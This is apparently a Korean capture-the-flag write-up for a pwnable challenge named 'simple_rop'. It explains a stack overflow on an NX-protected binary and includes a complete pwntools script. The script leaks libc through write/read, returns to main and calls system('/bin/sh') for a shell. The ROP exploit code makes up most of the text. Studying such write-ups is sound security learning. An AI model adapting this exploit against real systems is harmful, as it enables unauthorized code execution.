


# simple_rop
### #rop #pwnable

10분 컷 했던 문제. 간단히 정리만 한다.





bof 를 일으키는 소스. NX 도 걸려있으므로, 제목에 따라 rop 기법을 이용하면 될 것 같았다.

여타 특별한 함수는 없고, `write` 와 `read` 함수가 들어있으므로 이를 이용해서 **libc 주소** 를 leak 해보았다.

rop gadget 은 `ROP gadget` 툴을 이용하여 뽑아냈다.

그리고 `main` 함수로 다시 회귀시켜서 `system("/bin/sh\x00");` 함수가 실행될 수 있도록 rip 컨트롤을 진행하였다.

```python
# simple_rop.py
from pwn import *
binary=ELF("./simple_rop")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
read_got=binary.got['read']
write_plt=binary.plt['write']
main_addr=binary.symbols['main']
system_off=libc.symbols['system']
read_off=libc.symbols['read']
binsh=0x1b40fa
prdi=0x4005e3
prsi=0x4005e1

s=process("./simple_rop")
#s=remote("3.34.53.13",4147)
pause()
s.recvuntil("?")

#first chance
payload="a"*24
payload+=p64(prdi)
payload+=p64(0x1)
payload+=p64(prsi)
payload+=p64(read_got)
payload+=p64(0x0)
payload+=p64(write_plt)
payload+=p64(main_addr)
s.sendline(payload)

# second chance
read=u64(s.recv(8))
libc_base=read-read_off
sys=libc_base+system_off
s.recvuntil("?")
payload2="a"*24
payload2+=p64(prdi)
payload2+=p64(libc_base+binsh)
payload2+=p64(sys)
s.sendline(payload2)
s.interactive()
```

.

.

.

**Contact :** a42873410@gmail.com